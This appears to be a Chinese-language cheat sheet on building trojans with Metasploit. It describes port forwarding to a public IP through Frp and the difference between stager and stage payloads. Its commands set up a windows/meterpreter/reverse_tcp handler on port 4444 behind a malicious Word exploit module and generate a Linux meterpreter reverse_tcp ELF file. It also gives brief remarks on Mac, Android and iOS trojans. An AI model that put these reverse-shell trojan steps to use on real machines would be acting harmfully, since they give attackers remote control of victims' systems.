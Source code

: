 
msf木马设置需要设置为公网ip: port（[msf]remoteport）
监听需要设置为本地：127.0.0.1: 转发端口[msf local_port]

如果使用CS的话可以不用部署，如果你的CS版本中未有此功能或者失效同样可以配置Frp

#### stager
meterpreter:
1 single#单体木马
2 stager/stage#windows/stage/stager
攻击成功后先放入stager仅做连接
剩余做的动态连接库和恶意文件发送到stage(防止dump/功能分离)

stager=https/http/tcp/uuid
stage=meterpeter/peinject/shell/vncinject

reverse反向
bind正向

msf6>show payloads
msf6>show exploits

#### 零碎/handler
payload的设置大同小异，但是部分payload的设置需要SRVhost，这是指访问地址，如果chrome0day等，也有设置宏文件doc等exploit模块

设置好后可以使用handler直接设置好监听模块

```
msf6>exploit(mulit/fileformat/office_word)>handler -H 192.ip.ip.ip -P 4444 -p windows/meterpreter/reverse_tcp -n(name) bilibili 
```

#### linux木马

generate -h 生成功能
```
msf6>use payload/linux/x64/meterpreter/reverse_tcp

set lhost ip
```

```
msf6 payload(linux)>generate -f elf -o ~/test
```

meterpretere中execute命令会将命令转换成win/linux/mac/ios等不同平台下的可执行命令

#### mac木马

与win/linux平台类似，mac下它的文件格式为macho

使用file+文件名查看文件信息，可执行信息

不同平台中meterpreter不同平台可用命令也会有相当的差异


#### android/ios木马

由于msf不会直接打包android和ios，由于其可以加载elf-so所以需要加载器

